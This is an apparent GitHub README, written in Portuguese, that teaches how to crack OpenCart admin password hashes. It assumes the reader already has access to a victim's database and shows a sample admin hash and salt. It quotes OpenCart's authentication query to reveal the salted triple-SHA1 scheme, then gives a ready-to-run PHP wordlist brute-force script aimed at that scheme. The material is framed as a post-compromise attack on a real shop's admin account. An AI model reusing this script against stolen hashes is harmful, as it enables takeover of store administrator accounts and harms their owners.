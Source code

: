 # BRUTE FORCE OPENCART PASSWORDS TUTORIAL
Nesse pequeno tutorial eu explico como realizar ataques de força bruta em senhas opencart


## CENÁRIO:
- VOCÊ CONSEGUIU ACESSO AO BANCO DE DADOS OPENCART.
- VOCÊ CONSULTA A SENHA E O SALT DA SENHA NA TABELA DO ADMIN.

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@victim.com 	| 1      | admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEMA:
Você não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa HASH com força bruta comum usando criptografia SHA1.

```php
<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "SENHA: ".$string;}else{}
}
?>
```


O problema é que `$password` (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um programa de força bruta baseada nesse tipo de criptografia nunca iria gerar uma HASH igual a HASH do admin que você quer "desvendar".

## PORQUE?

SE OLHARMOS O CÓDIGO QUE FAZ A AUTENTICAÇÃO DO USUÁRIO NO OPENCART
`\opencart\system\library\customer.php`

TEMOS O SEGUINTE CÓDIGO:
```
$customer_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "customer WHERE LOWER(email) ='" . $this->db->escape(strtolower($email)) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1' AND approved = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

TRANSFORMANDO PRA NOSSA LINGUA FICA ALGO COMO:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

obs: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar a strings da nossa wordlist e comparar com a HASH do ADMIN

###### Um script php de força bruta em senhas OpenCart Ficaria algo do tipo:


```php
<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "SENHA: ".$string;}else{}
}
?>
```

###### _DUVIDAS? SUGESTÕES?: [pablov3rlly gmail com]_
